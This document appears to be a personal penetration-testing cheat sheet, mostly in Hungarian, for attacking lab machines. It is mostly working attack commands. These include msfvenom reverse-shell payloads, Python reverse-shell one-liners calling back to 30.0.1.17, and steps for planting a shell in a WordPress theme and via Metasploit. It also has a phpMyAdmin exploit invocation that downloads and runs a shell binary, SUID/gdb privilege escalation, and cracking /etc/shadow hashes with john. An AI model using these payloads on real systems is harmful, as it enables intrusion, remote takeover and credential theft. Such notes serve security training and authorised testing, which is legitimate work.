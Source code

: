 ## Advanced ping
``` sh
sudo nmap -sn <IP>
```
## Port scan
``` sh
sudo nmap -sS -sV <IP>
```

## Dirbuster wordlist
``` sh
/usr/share/wordlists/dirb/common.txt
```

## Password list 
``` sh
/usr/share/wordlists/rockyou.txt
```

## Listener
``` sh
nc -lvnp 4444
```
``` sh
nc -lvnp 5555
```

## PHP reverse shell generator
``` sh
msfvenom -p php/reverse_php LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
Ezt fel kell tölteni csinálni egy listeneret és lefuttatni a Target gépen, ezáltal kapunk egy PHP reverse shellt

## SHELL Chaining PHP esetén (nem PHP-nál is működik)
``` python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Shell upgrade
``` python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# wpscan
wpscan --help
* --url URL    --> url megadása
* -o FILE      --> fájlba mentés
* -f FORMAT    --> mentés formátuma
* --detection-mode MODE --> passive, aggressive, mixed
* --user-agent AGENT --> agent megadása
* --random-user-agent
* --http-auth login:password --> Basic auth login
* -e --> mire vagyunk kíváncsiak
  * -e vp --> sérülékeny plugin
  * -e u --> minden user meghatározása
* -P --> jelszavak brute-forceolása
* --login-uri URI  --> ha az oldal nem az eredti IP-n található hanem máshol pl.: http://40.0.4.16/secret
* --stealthy --> elrejtőzés

## Web server megtalálása
Appearance --> Theme editor
Érdemes a comments.php-t buherálni
1. Shell kód generálása (msfvenom)
2. comments.php-be beírni
3. Listener attack gépen (nc)
4. Egy komment megnyitása

Vagy ami könnyebb v

## WordPress feltörés shell generálás
msfconsole
```
search wp admin shell
```
Ha megvan a szám akkor
```
use {szám}
```
vagy
```
use exploit/unix/webapp/wp_admin_shell_upload
```

## Meterpreter php script
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
msfconsoleban
```
use exploit/multi/handler
```
Ez csak handler!!!

## betörés exploti python
3 külön terminal majd egyiken egy Listener majd egy másikban egy reverse shell(1) és egy python webserver ott ahol a exploit db s script van(python)(2) ezután feltöltjük(3). (1 2 3 egy mappában történjen)
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=30.0.1.17 -f elf > shell.elf
```
```
python3 -m http.server
```
```
python3 50457.py  40.0.5.16 80 /phpmyadmin pma pmapass "cd /tmp; rm -rf /tmp/shell.elf; wget http://30.0.1.17:8000/shell.elf;chmod 777 /tmp/shell.elf;/tmp/shell.elf"
```

# Linux PE (Privilige Excalaltion)
1. SUID bitek("meghatalmazás"): Ha egy futtatható fájlra ezt engedélyezzük, akkor a fájl nem az én jogaimmal indul majd el
   ### SUID bitek megkeresése
   ```
   find / -perm -u=s 2>/dev/null
   ```
   ### Használható fájlok
   - /usr/sbin/pppd
   - /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   - /usr/lib/openssh/ssh-keysign
   - /usr/lib/xorg/Xorg.wrap
   - /usr/libexec/polkit-agent-helper-1
   - /usr/bin/sudo
   - /usr/bin/su
   - /usr/bin/fusermount3
   - /usr/bin/pkexec
   - /usr/bin/gpasswd
   - /usr/bin/chfn
   - /usr/bin/mount
   - /usr/bin/chsh
   - /usr/bin/umount
   - /usr/bin/newgrp
   - /usr/bin/ntfs-3g
   - /usr/bin/passwd

    Ha van gdb
    ```
    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
    ```
2. Sudo jogok: sudo -l
   - /etc/passwd  --> cat vagy ls -l  vagy /etc/shadow(jelszavak vannak itt)
     - Ha a jognál + jel van akkor
     ```
     getfacl /etc/passwd
     ```
     - catelés után jelszavak keresése $ on ként vannak részek első típus második is majd utána só és az utolsó a jelszó, ha megvan egy fájlba elmentjük majd `john`
       y: cript típus
     - jelszó feltörése: john (the ripper) vagy hashcat
       ```
       john <jelszofajl> --wordlist=/usr/share/wordlists/rockyou.txt (--format=crypt --> ha y típus)

       ```
 3. Python library hyjacking
 4. 

 ## Jelszó generálás
 ```
openssl passwd -5 alma
```
